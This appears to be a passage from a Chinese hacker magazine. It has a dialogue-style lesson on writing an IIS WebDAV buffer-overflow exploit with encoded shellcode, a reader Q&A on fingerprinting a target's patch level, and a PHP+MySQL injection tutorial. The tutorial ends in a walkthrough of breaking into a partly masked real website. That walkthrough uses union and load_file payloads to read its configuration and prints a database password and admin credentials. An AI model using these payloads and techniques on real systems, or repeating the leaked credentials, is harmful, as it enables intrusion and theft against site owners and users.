> 这样，就出现了双字节的 Unicode 宽字节编码，由于 Unicode 用一个 16 位的值来表示每个字符，因此总共可以得到 65000 个字符，这样，它就能够对世界各国的书面文字中的所有字符进行编码，远远超过了单字节字符集的 256 个字符数目。
> 
> 如果是汉字一类，本来就是双字节编码。但如果是单字节，那么向宽字节的转换标准是宽字节的低字节就是单字节本身，而高字节填充 0，比如：0x41 -> 0x0041。

“所以，在最开始的时候，eEye 的办法是在 shellcode 前面放上很多 NOP，这样就把 shellcode 指向了 0x004x00xx 的地址，就可以用 XX4X 这样的中间任意模式，这个串被扩展为 x004x00 以后正好跳转到 shellcode 的位置。”

“哇，办法很巧妙呀！”小菜们说道。

“嗯，这种方法虽然理论上行得通，但是实际上问题非常多，可以控制跳转却无法执行代码，而且不同的机器这个 0x004x00xx 都不一样，这样就很难做出通用性比较好的 exploit。”

“哦，不实用呀。那怎么办呢？”

“随着技术的发展，有人发现了用巧妙的方法避开被扩展成宽字符，那我们就可以很轻松的改写完善的 exploit 了！”

“黑客精神真是好啊，很多困难的问题，大家一起解决，一起进步。”小菜们由衷地说道，“用的是什么方法呢？”

“方法就是：在我们要用的 Jmp 04、Jmp ebx 地址和 ShellCode 前面加了一个 `%u` 符号，IIS 是这样处理 `%u` 的，它认为是宽字符，就不再作变换了。比如，Jmp 04 的指令写成 `%u046b`。我们把 ShellCode 都加上 `%u`，就不会改变我们的东西了。”

“哦！这样啊！真是一语点破天机啊！”小菜感叹道。

“呵呵，这就是黑客魅力的所在。好了，我们就用这个办法把这个 exploit 完成吧！”

“好啊。”

小菜们一边回答，一边给 ShellCode 添上 `%u` 的标志。

“呼~~ 添加完成了。”小菜们擦擦汗。

“好！我们运行试试吧！”老师一编译执行，叭！一个用户就添加上了。

“哦！”小菜们欢呼起来，“成功了，成功了。”

“呵呵，菜鸟还是有菜鸟的乐趣吧！尤其是经过种种挫折后成功，是很有成就感的吧。好，大家休息一下，十分钟后我们继续。”

## 九 IIS 中文版中的高级利用：webdav 溢出漏洞编写

“上课了，上课了！”小菜们一边兴高采烈地讨论着刚才学到的东西，一边进入教室。“嗯，大家经过了这几堂课的学习，有什么感觉啊？”老师问道。

“哦，这几堂课我们对溢出编写的基本思路有了清晰的了解；掌握了利用缓冲区溢出的两种方式；同时还对大量的实际漏洞进行了成功的编写。”

“让我们的兴趣和技术都得到了很大的提升。”

“同时，我们也认识到了真正的黑客精神是钻研和共享！”

“好！”老师赞扬道，“大家有了这些认识就很好！只要有了兴趣和钻研的精神，大家就可以自主地不断深入下去；同时，有了共享的精神，那就会得到别人的尊敬，并且一同讨论，一起进步。”

“嗯！”小菜们认真地点点头。

“OK，时间也不早了，我们再一起学习一个难度比较大的漏洞——IIS 的 webdav 溢出漏洞！”

“哦，比较难啊？难在什么地方呢？”

“呵呵，我们一起往下走就知道了。虽然比较难，但搞清楚之后，对大家的思路扩展是很有好处的！”

“哦！好 yeah！”

> **小知识**
> 
> IIS 5.0 就已经提供了对 WebDAV 的支持，通过 WebDAV 可以为 HTTP 的用户提供远程文件传输的服务。在 IIS 5.0 包含的 WebDAV 组件不充分检查传递给部分系统组件的数据，远程攻击者利用这个漏洞对 WebDAV 进行缓冲区溢出攻击，可能以 WEB 进程权限在系统上执行任意指令。IIS 5.0 的 WebDAV 使用了 ntdll.dll 中的一些函数，而这些函数存在一个缓冲区溢出漏洞。针对 WebDAV 的畸形请求可以触发这个溢出。成功利用这个漏洞可以获得 LocalSystem 权限。这意味着，入侵者可以获得主机的完全控制能力。


“大家可以看出，这个漏洞还是很有用的吧，而且是 Win2000 sp3 也有这个漏洞哦！”

“哦！”

“这个漏洞产生的机理是相当复杂的。我简单的说吧，发出下面的请求时，IIS 就会把 buffer 加上几个字节的路径，作一定的拷贝。”

```http
SEARCH /(buffer) HTTP/1.0
Host:xxx
Content-Type: text/xml
Content-length: 3
Xxx
```

“嗯，在拷贝中，没有作边界检查？所以溢出？”小菜们问道。

“不，在拷贝前，是作了检查的！而且很严格，用变量 Length 保存长度，如果 Length 超过了 8，那就不作拷贝！”

“哦？那怎么引发溢出的呢？”

“呵呵，这是这个漏洞的第一个奇妙之处。虽然程序先计算出长度，保存在 Length 中，但 Length 是无符号短整型变量，只能存 65535。但是，我们的 buffer 可以超过 65535 的限制，那 Length 就无法容纳，就会溢出。例如当路径长度是 65536，那么 Length 就变成 0。拷贝前的判断就为真，就可以拷贝。在拷贝的时候，buffer 实际是 65536 那么长，当然溢出了！”

“哦！的确很奇妙啊！！”

“这个溢出从本质上来说是一个短整型数溢出，而后导致了堆栈溢出。这一点是值得研究的。”

“嗯！”小菜们点点头。

“好，我们继续。Buffer 超过 65535 时就会溢出。我们用覆盖异常处理点的方法，用那经典三步，写出 exploit 的雏形吧！”

“好哩！”

“第一步：异常处理点的位置。在 Buffer 第 266 的位置左右，这里注意，是左右哦。”

“第二步：ShellCode。呵呵，等以后有机会我们再一起讨论，这里还是用现成的吧。”

“第三步：Jmp / call ebx 的地址——先用 0x7FFA1571 试试。”

“等一下，”小菜们急了，“为什么在 266 位置的左右？不能精确吗？”

“这就是这个漏洞的第二个奇妙之处。刚才说过，IIS 会把 buffer 加上几个字节的路径后作拷贝。但那个路径，不同的机器有不同的安装目录，长度会不同，所以不能统一。比如，我的 IIS 安装在 c:\inetpub\wwwroot 下，那 Buffer 要正好 269 长才碰到异常处理点。”

“哦！越来越麻烦了。”

“的确，但这都是小问题，实际中改变长度，多试几次就可以了。真正的考验还在后面呢，呵呵。”

“哇！”小菜们都吓住了。

“大家要获得技术的突破，一定要有耐心和毅力，不要怕，我们继续！”

“哦，好吧……”

“不用担心，一定可以解决的！”老师努力给大家打气。

“嗯！好，我们是菜鸟我们怕谁！”小菜们挺了过来。

“好，那我们写出初步的构造吧！”（图 36）。

“就是这样了。”小菜们点点头。“但应该没这么简单，还有其他的玄妙吧？”

“呵呵，不急，我们一步步地来。首先，回想下刚才的 idaidq，我们作了什么处理？”

“哦！对咯！IIS 会作变换成宽字节的处理！”小菜们叫了起来，“我们应该加上 %u 防止被扩展变化！”

“呵呵。我们先把 Jmp 04、Jmp Ebx 地址和 ShellCode 都加上 %u 试试。”

“好哩！”小菜们把 %u 加了上去，这是他们的强项，一个个相当勤快。

“哇呀，运行下试试！”

小菜们编译、执行，毫无反应。

“果然没那么简单。”小菜自言自语道。

“嗯，这个漏洞和 idaidq 不同，idaidq 发现 %u 标志后，就不对后面的字节进行 Unicode 转换，而 Webdav 却是 %u 也要作 Unicode 转换，但过后要转换回单字节。”

“小于 0x80 单字节字符转换时会被转换成 `\xXX\x00` 的形式，然后又被转换回 `\xXX`；但大于 0x80 的，系统会认为后面还有一个字节的字符，跟这个字符一起组成一个完整‘宽’字符来作转换。”

“比如，`\x61\x81\x81` 会被转换为 `\x61\x00\xXX\xYY`，然后再转换回来，就变成 `\x61\xXX\xYY` 了。”

“所以问题就在转换了。在转换过程中，不符合编码范围的双字节字符会被替换掉！那转换完毕后，当然不是我们想要的字符串啦。”

“哇！！”

“这就是该漏洞第二个奇妙的地方。大家想想怎么办？”老师又开始让小菜们开动脑筋了。

“如果不符合编码范围会被改变；那我们把 Jmp 04、Jmp Ebx 的地址和 Shellcode 都使用符合编码范围的字符吧！”小菜们思考后说。

“嗯！很好！思路就是这样。我们使用小于 0x80 的字符，这样 `\xXX` 在转换成宽字节后，就变为 `\xXX\x00`；再被转换回来，就又成了 `\xXX`，不会被改变。”

“但大家想想，Jmp 04、Jmp Ebx 的地址符合规范，比较容易，但要让整个 Shellcode 都符合不大于 0x80 的要求，实在是太难了！”

“嗯，是啊！是啊！”小菜们说。“天！那怎么办啊？？”

“这里，我给大家再介绍前辈级的人物——yuange！他在他的文章中提出解决办法如下：

- 1. 把 real shellcode 编码成可见字符，即小于 0x80。这样在经过转换后就成为 `\xXX\x00`，字符不会被改变。
- 2. 再精心编写一段符合编码范围的代码，用这些代码来解码上述经过编码的 real shellcode！”

“哦？”

“yuange 提出的具体的算法，就是编码时把 shellcode 的字符 0xXY 变成 0x0X 和 0x0Y，这样一定可以符合小于 0x80 要求，而在解码中，用 `0xA*0x10+0xB=0xAB` 的算法来恢复。”

“而解码的代码，是 yuange 精心打造的，全都符合编码范围要求的 CPU 指令。大家看看吧。”

```
%u5390%u6658%u66ad%u993d%u7560%u55f8%u5656%u685f
%u66ad%u4e3d%u7400%u9023%u612c%u5090%u6659%u90ad
%u612c%u548d%u7088%u548d%u908a%u548d%u08a5%u548d
%u6085%u5852%u4aa9%u75d8%u9066%u5058%u5050%u90c3
%u6099...
```

```
AAAAAAAAAAAAA  Ret Search F  ShellCode
AAAAAAAAAAAAA' Ret Search F' ShellCode'
```

“哇！太强了！”小菜们感叹到。

“是啊，yuange 这样的人才算得上真正的黑客，技术高超，而且无私共享。”

“呵呵，不论是谁，看了 yuange 的文章，都会吼出这句话的。”老师笑道。“我们来把 exploit 完成吧。”

“嗯，好！”

“我们先把 ShellCode 用 yuange 的算法进行编码，成为符合要求的 EnShellCode；然后在 EnShellCode 前面放上解码的代码 DeCode，对 EnShellCode 解码还原成真正的 ShellCode，并跳转过去执行！格式如图 37 了！”

“在图 38 中，A 和 A' 无所谓，Ret 和 Search 一定要符合规范，不能被改变；F 和 F' 一定要不一样，如果一样就无法定位原始数据和改变后的数据的位置。而 ShellCode 和 ShellCode' 是不一样的，要是一样的话，我们就不用花这么大的力气去写一个符合规范的 Search 和跳转了。当然，如果 ShellCode 可以直接写成符合规范的也可以，但难度太大了，对于刚才这个漏洞，基本不可能，所以采用了对 ShellCode 的编码和解码。”

“哦！”

“好，我们看看结果吧！”

编译、执行！成功了！

“哦！”小菜们兴奋了，在经过无数的困难后，取得的成功最甜美。

```
|------------||--------||---------|SSSSSSSSS|
 266左右个NOP   Jmp 04   Jmp ebx   DeCode    EnShellCode

图 37
```

```
图 38
```

“注意，我们还要把 Jmp ebx 地址用符合规范的 0x695c6772 代替，Jmp 04 用 0x58685159 来代替！这样就全部符合编码的规范了！”

“哇！还真不容易啦。”小菜们擦擦汗。

“这是写溢出时常用的技巧。”老师说道。“我们把它总结一下。”

“在内存中，A 表示垃圾字符，Ret 表示或者 Jmp esp，或者 Jmp 04 Call ebx，反正功能是要跳转到后面的 Search 中，然后 F' 为标志，最后是 ShellCode。Search 功能就是要进入到原来的 ShellCode 中。如图 38 所示。”

## 十 尾声

“呵呵，好了，这次缓冲区的课程就结束了。”

“啊！感觉还没有尽兴呢！”小菜们觉得时间过的太快了。

“呵呵，大家能有这个兴趣就好，我给大家布置点作业，大家可以练习一下。自己试试 Serv-U 的 MDTM 吧，道理和这个是一样的。然后，还可以试试 RPC、LSA 等漏洞的编写，细节有些不同，但基本原理都是差不多的。”

“哦”。

“好，时间也不早了，这次的课就到这里了，下次如果还有机会的话，我们在《黑客 X 档案》再见！”

（文字中所涉及的 FoxMail 1.1 cpp 及其他相关代码光盘中有提供）

- **呆呆虫，为什么我的 sniffer 程序不能识别 Modem？**
  sniffer 程序的作用是将计算机的网卡设置成混杂模式，而无法将 Modem 设置为混杂模式，所以，不能使用 Modem 拨号嗅探。另外，如果网卡不处于活动状态（即有连接），一些 sniffer 程序会无法自动查找到（例如 sniffer pro）。

- **如何判断对方主机的 sp 版本是多少？**
  这里说一个简单的方法好了。大家来到这个位置：`C:\WINNT\$NtServicePackUninstall$\spuninst`（假设 Windows 安装在 C 盘），`$NtServicePackUninstall$`（注，该文件夹默认是隐藏属性的）是安装 sp 时拷贝出去的一个备份文件夹，估计很少有人不给备份。在 `C:\WINNT\$NtServicePackUninstall$\spuninst` 下有个文件名为 `spuninst.inf` 文件。打开该文件，在里面可以看到这样一行：`NtServicePackVersionText = "Service Pack 3"`。从这里很容易就判断出该主机为 sp3 的补丁了。
  这里补充一下，该方法只能准确确定 sp 版本而已，如果对方只是打了某一个或几个 HOTFIX，则不好判断。因此，需要通过注册表来判断 HOTFIX，其位置如下：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Hotfix`，在这下面，会看到名为“Qxxxxxx”的选项，这就是 HOTFIX 号了，然后再通过 MS 的站点来搜索这些 HOTFIX，就可确定其补丁，以便做出对策。

- **为什么我每次安装完 Win2k 后都会有一个名为 GMT 的木马进程？**
  GMT 其实是个系统进程，它表示的是格林尼治标准时间。所以，如果你的系统确实是刚刚安装完成后就出现这个进程的话，不要害怕，这不是什么木马也不是什么后门。不过，也要小心，因为，现在好像也有不知名的木马会生成该进程。所以，建议查看生成该进程的文件或使用杀毒软件检测。

- **网线之间如果相邻很近会不会有影响？**
  现在大部分使用的网线都是非屏蔽的双绞线（UTP），这种不带屏蔽层的网线对一些干扰很敏感。例如：两根网线缠绕在一起，时间一长就会发生误码或网速下降等问题，严重影响网络速度。另，不单单是网线和网线之间会有这样问题，任何能产生电磁波的线缆都存在此问题。例如：如果网线和电源线一起走，在电源接通的情况下，网线肯定就会受到干扰。有条件的朋友可做一下实验，严重的可引起网络传输速度降低甚至远程打开文件时死机。

- **我的硬盘接口为 SCSI 接口，在安装 Win2k 时会出现错误，无法继续安装，怎么解决？**
  这种问题很普遍，这是因为 Win2k 的安装程序无法为你的 SCSI 接口卡找到合适的驱动程序而导致的。在安装 Win2k 时，会有一个检测到硬件的过程，此时要注意看屏幕最下一行的英文，按照提示按下 F6 就可以自己安装正确的驱动。然后就可以安装你的 Win2k 了。

## PHP+MySQL Injection 专题

## 前言

Injection 攻击是现在最流行的入侵方式了，依靠它攻击的强大性和灵活性吸引了众多黑迷。在上一期的《PHP 安全专注射》专题中主要讲述了 PHP 程序的各种常规漏洞，也涉及到了一些 PHP + MySQL 注入的问题，但是对注入讲的比较浅也不是很全面，让我们感觉到没有尽兴。这一切我将给大家仔仔细细的讲一下 PHP + MySQL 注入，一定让你满载而归。

本文主要是为小菜们服务的，如果你已经是只老鸟，可能对某些东西会感觉比较乏味，不过只要你仔细的看，会发现很多有趣的东西！

magic_quotes_gpc = Off 情况下的注入方式还是大有市场的。下面我们将从 MYSQL 语句、注入类型、注入点三个方面来详解 MySQL + PHP 注入。

## 一、学习 PHP+MySQL 注入的前提知识

- 1. 明白 PHP+MySQL 环境是如何搭建的，在光盘中收录有搭建的相关文章《Apache+PHP+MySQL 的安装与配置》。如果您对搭建 PHP+MySQL 环境不是很清楚，请先查阅此文，在上一期的专题中也有所介绍。
- 2. 大概了解 PHP 和 Apache 的配置，主要是在 php.ini 和 httpd.conf 中的相关设置。此专题我们主要用到的是 php.ini 的配置。平常配置服务器时为了安全起见，我们一般都打开 php.ini 里的安全模式，即让 safe_mode=On，还有就是，PHP 执行错误 display_errors 的选项打开的话，会给骇客返回很多有价值的利用信息，所以我们应该让 display_errors=off。这样关闭错误显示后，PHP 函数执行错误的信息将不会再在浏览器中显示。PHP 的配置文件 php.ini 中还有一个非常重要的配置选项——magic_quotes_gpc，高版本的默认都是 magic_quotes_gpc=On，只有在古董级的 PHP 中默认配置才是 magic_quotes_gpc=Off，可是古董的东西也有人用的哦！当 php.ini 中 magic_quotes_gpc=On 时会有什么情况发生？不用惊慌，天是塌不下来的啦！它只是把提交的变量中所有的 “'（单引号）”、“"（双引号）”、“\（反斜线）”和空字符会自动转为含有反斜线的转义字符。例如把 “'” 变成了 “\'”，把 “\” 变成了 “\\”，就是这一点，让我们很不爽，很多时候我们对字符型变量的注入只好说 Bye Bye。但是不用气馁，我们还是会有好方法来对付它的，往下看呀！
- 3. 有一定的 PHP 语言基础和了解一些基本的 SQL 语句。这些都很简单，我们用到的东西很少，所以充电还来得及！

## 二、magic_quotes_gpc=Off 时的注入攻击

magic_quotes_gpc=Off 的情况虽说不安全，一般 PHP 服务器应该将这个选项关闭；新版本也默认让 magic_quotes_gpc=On，可在很多服务器中我还是发现有 magic_quotes_gpc=Off 的情况。还有些程序如 vbb 论坛，就算你配置 magic_quotes_gpc=On，它也会自动消除转义字符让我们有机可乘。所以说研究它还是很有意义的。

### 1. 从 MYSQL 语句方面详解 MySQL+PHP 注入

这里我给大家先讲一些 MySQL 的基本语句，算是给没有好好学习的朋友补下课！

### （1）SELECT 语句注入攻击

Select 语句基本格式如下：

```sql
SELECT [STRAIGHT_JOIN] [SQL_SMALL_RESULT] ...
  select_expression,...
  [INTO {OUTFILE | DUMPFILE} 'file_name' export_options]
  [FROM table_references
  [WHERE where_definition]
  [GROUP BY col_name,...]
  [ORDER BY {unsigned_integer | col_name | formula} [ASC | DESC],...]
  ...]
```

常用的 select 语法就是这些。“select_expression” 指想要检索的列，后面我们可以用 where 来限制条件，我们也可以用 into outfile 将 select 结果输出到文件中，当然我们也可用 select 直接在 IE 中输出。举个简单的查询小例子，如下：

```sql
mysql> select 'a';
```

| a |
| :--- |
| a |

1 row in set (0.00 sec)

具体内容请看 MySQL 中文手册 7.12 节。

下面说一些具体利用 select 攻击的例子。先来看一段有漏洞的代码，这段代码是用来搜索的。

```html
<form method="POST" action="<? echo $PHP_SELF; ?>">
    <input type="text" name="search"><br>
    <input type="submit" value="Search">
</form>
<?php
    // 漏洞代码示例
    $sql = "SELECT * FROM users WHERE username LIKE '%$search%' ORDER BY username";
?>
```

在这段代码中，有的菜鸟可能不明白“%”是用来做什么的，我们顺便说一下 MySQL 中的通配符。“%”就是通配符，其它的通配符还有“*”和“_”，其中，“*”用来匹配字段名，而“%”用来匹配字段值。要注意的是，“%”必须与“like”一起适用；还有一个通配符就是下划线“_”，它代表的意思和上面不同，是用来匹配任何单个字符的。在上面的代码中我们用到了“*”，表示返回的所有字段名，“%$search%”表示所有包含“$search”字符的内容。针对这段代码我们如何注入呢？哈哈！其实和 ASP 里很相似，在表单里提交：`Aabb%' or 1=1 order by id#`（“#”在 MySQL 中表示注释的意思，即让后面的 SQL 语句不执行），把提交的内容带入到 SQL 语句中，则成为 `SELECT * FROM users WHERE username LIKE '%aabb%' or 1=1 order by id# ORDER BY username` 这样的语句。假如数据库中没有含有 aabb 的用户名，那么 or 1=1 使返回值仍为真，从而能返回所有值了。同理，我们还可以这样在表单里提交 `%' order by id#` 或者用 `' order by id#`，带入的 SQL 语句中成了 `SELECT * FROM users WHERE username LIKE '%%' order by id# ORDER BY username` 和 `SELECT * FROM users WHERE username LIKE '%' order by id# ORDER BY username`。当然，这样一来数据库的内容会全部返回，到目前有用户名，没连姓名密码出来呢！这只是举个简单例子，下面会有更精妙的 select 语句出现，select 几乎是无处不在！

### （2）update 语句注入攻击

对 update 语法，MySQL 中文手册里是这么解释的：

```sql
UPDATE [LOW_PRIORITY] tbl_name SET
col_name1=expr1,col_name2=expr2,...
[WHERE where_definition]
```

其中，“UPDATE”用新值更新现存表中行的列；“SET”子句指出哪个列要修改和他们应该被给定的值；“WHERE”子句如果给出，指定哪个行应该被更新，否则所有行被更新。详细内容去看 MySQL 中文手册 7.1.7 节。

由上可知，update 语句主要用于数据的更新，例如文章的修改、用户资料的修改，我们似乎更关心后者。同样来看一段代码，我们一块儿给出表的结构，这样大家容易看得更明白。

```sql
CREATE TABLE users (
    id int(10) NOT NULL auto_increment,
    login varchar(25),
    password varchar(25),
    email varchar(30),
    userlevel tinyint,
    PRIMARY KEY (id)
);
```

其中，“userlevel”表示等级，“1”为管理员，“2”为普通用户。

```php
<?php
//change.php
......
$sql = "UPDATE users SET password='$pass', email='$email' WHERE id='$id'";
......
?>
```

OK！我们开始注入了，在填 E-mail 的地方填入 `netsh@163.com',userlevel='1`，这样一来，SQL 语句其实执行的就是 `UPDATE users SET password='youpass',email='netsh@163.com',userlevel='1' WHERE id='youid'`，我们在数据库中的 userlevel 就变为 1 了，普通用户变成管理员了！

这里我们还要简单提一下单引号闭合的问题，如果只用了一个单引号而没有单引号与之组成一对，系统会返回错误。MySQL 数据库的列类型主要分为数字类型、日期和时间类型、字符串类型，引号一般用在字符串类型里，而在数字类型里一般都不会用到引号。

### （3）insert 语句注入攻击

下面轮到 insert 语句了。PHP 中文手册是这样教我们的：

```sql
INSERT [LOW_PRIORITY | DELAYED] [IGNORE]
    [INTO] tbl_name [(col_name,...)]
VALUES (expression,...),(...),...
```

INSERT 是把新行插入到一个存在的表中，INSERT ... VALUES 形式的语句基于明确指定的值插入行，INSERT ... SELECT 形式插入从其他表选择的行。还是先来看一下表的结构和漏洞代码：

```sql
CREATE TABLE membres (
    id varchar(15) NOT NULL default '',
    login varchar(25),
    password varchar(25),
    email varchar(30),
    userlevel tinyint,
    PRIMARY KEY (id)
);
```

我们仍然假设 userlevel 表示用户等级，1 为管理员，2 为普通用户。代码如下：

```php
<?php
//reg.php
......
$query = "INSERT INTO membres VALUES('$id','$login', '$pass','$email','2')";
......
?>
```

这段代码默认插入用户等级是 2。现在我们构造注入语句了，还是在要输入 E-mail 的地方输入：`netsh@163.com', '1')#`。SQL 语句执行时变成了：`INSERT INTO membres VALUES ('youid','youname','youpass','netsh@163.com','1')#,'2')`。提交语句后，我们一注册就是管理员了。

### （4）MySQL 中的注释符

相信大家在上面的几个例子中已经看到注释的强大作用了吧！这里我们将再详细介绍一下。MySQL 有三种注释句法。第 1 个是“#”，注射掉注释符后面的本行内容；第 2 个是“--”，注射效果同“#”，第 3 个是“/* ... */”，意为注释掉符号中间的部分。对于“#”号，将是我们最常用的注释方法。“--”号记得后面还得有一个空格才能起注释作用。“/*...*/”我们一般只用前面的“/*”就够了。在浏览器地址栏输入“#”时应把它写成“%23”这样经过 urlencode 转换后才能成为“#”，从而起到注释的作用。

为了大家深刻理解，这里我给大家来个例题，有如下的管理员信息表和 PHP 漏洞语句：

```sql
CREATE TABLE alphauthor (
    Id tinyint(4) NOT NULL auto_increment,
    UserName varchar(50) NOT NULL default '',
    PASSWORD varchar(50) default NULL,
    Name varchar(50) default NULL,
    PRIMARY KEY (Id),
    UNIQUE KEY Id (Id),
    KEY Id_2 (Id)
);
```

```php
<?php
//Login.php
......
$query="select * from alphaauthor where UserName='$username' and Password='$passwd'";
$result=mysql_query($query);
$data=mysql_fetch_array($result);
if ($data)
{
  echo "重要信息";
}
else
  echo "登陆失败"; 
......
?>
```

我们在浏览器地址框直接输入 `http:///***/login.php?username=a' or id=1 %23`（“%23” 转换成 “#” 号了），放到 SQL 语句中即为：
`select * from alphaauthor where UserName='a' or id=1 #' and Password='$passwd'`
“#” 号后面的都白输入了，这句话等价于：
`select * from alphaauthor where UserName='a' or id=1`
再仔细看看表的结构，只要有 id=1 的帐户，返回的 “$data” 就应该为真，我们就可以直接登陆了。当然，你也可以写成 `http:///***/login.php?username=a' or 1=1 %23`，是一样的效果！

#### （5）显示系统信息的间谍们

MySQL 也有自己的内置变量。重要函数如下：

- VERSION() 返回数据库版本信息。
- DATABASE() 返回当前的数据库名字；如果没有当前的数据库，DATABASE() 返回空字符串。
- USER() / SYSTEM_USER() / SESSION_USER() 返回当前 MySQL 用户名。

我们在 MySQL 命令行下输入：

```sql
mysql> select user(),database(),version();
```

返回信息如图 1 所示：

| user() | database() | version() |
| :--- | :--- | :--- |
| root@localhost | alphadb | 4.0.18-nt |

这几个内置变量有时候很有用，比如你可以根据他的 MySQL 版本看看他的 MySQL 有没有什么溢出漏洞。

### （6）union 语法注入攻击

下面进入最重要的部分了。下面是 PHP 中文手册对 union 语法的定义：

> SELECT ... UNION [ALL] SELECT ... [UNION SELECT ...]

UNION 在 MySQL 4.0.0 中被实现。UNION 用于将多个 SELECT 语句的结果联合到一个结果集中。

SELECT 语句中的 “select_expression” 部分列出的列必须具有同样的类型。第一个 “SELECT” 查询中使用的列名称将作为结果集的列名返回。union 前后的 select 字段数必须相同，只有这样，union 函数才能发挥作用。如果字段数不等，将返回 `ERROR 1222 (21000): The used SELECT statements have a different number of columns` 错误。

举个实际例子吧！已知 alphadb 表有 11 列，我们在 MySQL 的命令行下构造以下语句：

```sql
mysql> select * from alphadb where id=351 union
select 1,2,3,4,5,6,7,8,9,10 from alphaauthor;
```

将会返回错误信息（如图 2）。这里我们只 select 了 10 个字段数，当然会出错啦！更改一下：

```sql
mysql> select * from alphadb where id=347 union
select 1,2,3,4,5,6,7,8,9,10,11 from alphaauthor;
```

得到正确结果（如图 3）。我们进一步了解 union 语法，先来看一下 id = 347 中的数据。

```sql
mysql> select * from alphadb where id=347;
```

| id | title | content | importtime | author | accessing | addinto | type | showup | change_ubb | change_html |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 347 | 利用 adsutil.vbs+...发表于黑客档案2004.6期 | 发表于黑客X档案第6期 | 2004-03-28 11:50:50 | Alpha | 17 | Alpha | 2 | 1 | 1 | 1 |

我们看到，它的返回结果和 `mysql> select * from alphadb where id=347 union select 1,2,3,4,5,6,7,8,9,10,11 from alphaauthor;` 这句是相同的。

# 主题乐园

是国内一著名安全类站点——XXXX。

听人说 XX 网站有漏洞，我们一起去看看吧！提交 `http://www.xxxx.net/down/show.php?id=5403%20and%201=1`，正常显示，如图 35 所示。


图 35

提交 `http://www.xxxx.net/down/show.php?id=5403%20and%201=2`，显示不正常，如图 36 所示。


图 36

好，我们继续提交 `http://www.xxxx.net/down/show.php?id=5403%20and%201=1 union select 1`，显示结果如图 37。


图 37

大家看！图 37 中没有显示程序名，而且还附带了错误信息：

> Warning: mysql_fetch_object(): supplied argument is not a valid MySQL result resource in D:\web\heibai\down\show.php on line 45
> Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource in D:\web\xxxx\down\global.php on line 578

晕了，网站路径出来了，那可就死定了哦！我们继续，直到猜到 `http://www.xxxx.net/down/show.php?id=5403%20and%201=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19` 的时候页面才正常显示，如图 38。


图 38

好！我们转换语句为：`http://www.xxxx.net/down/show.php?id=5403%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19`

显示如图 39。看看简介处显示为 12，我们可以猜测此处应该为字符型。OK！下面看看文件内容。


图 39

`D:/web/xxxx/down/show.php` 转化成 ASCII 后为：`char(100,58,47,119,101,98,47,104,101,105,98,97,105,47,100,111,119,110,47,115,104,111,119,46,112,104,112)`

我们提交：`view-source:http://www.xxxx.net/down/show.php?id=5403%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,load_file(char(100,58,47,119,101,98,47,104,101,105,98,97,105,47,100,111,119,110,47,115,104,111,119,46,112,104,112)),13,14,15,16,17,18,19`

显示出它的源代码，如图 40 所示。


图 40

因为在 show.php 中有一句 `<META HTTP-EQUIV=REFRESH CONTENT='0;URL=list.php'>`，如果我们直接在浏览器里提交会跳转到 list.php。我们还发现这句 `require("./include/config.inc.php");` 代码。好东西，应该是配置文件，OK！继续。

`d:/web/xxxx/down/include/config.inc.php` 转化成：`char(100,58,47,119,101,98,47,104,101,105,98,97,105,47,100,111,119,110,47,105,110,99,108,117,100,101,47,99,111,110,102,105,103,46,105,110,99,46,112,104,112)`

我们输入：`http://www.xxxx.net/down/show.php?id=5403%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,load_file(char(100,58,47,119,101,98,47,104,101,105,98,97,105,47,100,111,119,110,47,105,110,99,108,117,100,101,47,99,111,110,102,105,103,46,105,110,99,46,112,104,112)),13,14,15,16,17,18,19`

结果如图 41 所示。


里面内容主要有：

```php
// ymDown（夜猫下载系统）是一个应用于网站提供下载服务的程序

// 数据库信息
$dbhost = 'localhost'; // 数据库主机名
$dbuser = 'download'; // 数据库用户名
$dbpasswd = 'kunstar988'; // 数据库密码
$dbname = 'download'; // 数据库名

// Cookie 名称
$cookie_name = 'xxxx';

// 版本号
$version = '4.0.1';

// 数据表名
$down_table = 'ymdown';
$down_user_table = 'ymdown_user';
$down_sort1_table = 'ymdown_sort1';
$down_sort2_table = 'ymdown_sort2';
```

原来用的是夜猫的下载系统，而且我们知道了：
`$dbuser = 'download'; // 数据库用户名`
`$dbpasswd = 'kunstar988'; // 数据库密码`

用的表名是默认的，我们知道夜猫的管理员密码放在 `ymdown_user` 中。我们继续提交 `http://www.xxxx.net/down/show.php?id=5403%20and%201=2%20union%20select%201,2,3,username,5,password,7,8,9,10,11,12,13,14,15,16,17,18,19 from ymdown_user`，结果如图 42 所示。


根据提示，我们知道文件大小处的是 username，应用平台处的是 password，即这套系统管理员的 username=dload，password=6558428。夜猫下载系统的后台默认在 admin 目录下，我试验了很久都没有找到，晕之！想直接连接 MySQL，发现 3306 端口并没有开放。去看看别的吧！

`http://www.xxxx.net/vip/article/login.php` 看起来像是会员的登陆，我们去看看先。

`d:/web/xxxx/vip/article/login.php` 转化成 16 进制：`char(100,58,47,119,101,98,47,104,101,105,98,97,105,47,118,105,112,47,97,114,116,105,99,108,101,47,108,111,103,105,110,46,112,104,112)`

我们输入 `http://www.xxxx.net/down/show.php?id=5403%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,load_file(char(100,58,47,119,101,98,47,104,101,105,98,97,105,47,118,105,112,47,97,114,116,105,99,108,101,47,108,111,103,105,110,46,112,104,112)),13,14,15,16,17,18,19`

结果如图 43。


其中主要有价值内容如下：

```php
require('./include/global.php');
require('./include/config.inc.php');
require('./main/function.php');
require('./function.php');
```

当然，我们去看 `config.inc.php` 吧！

`d:/web/xxxx/vip/article/include/config.inc.php` 转成：`char(100,58,47,119,101,98,47,104,101,105,98,97,105,47,118,105,112,47,97,114,116,105,99,108,101,47,105,110,99,108,117,100,101,47,99,111,110,102,105,103,46,105,110,99,46,112,104,112)`

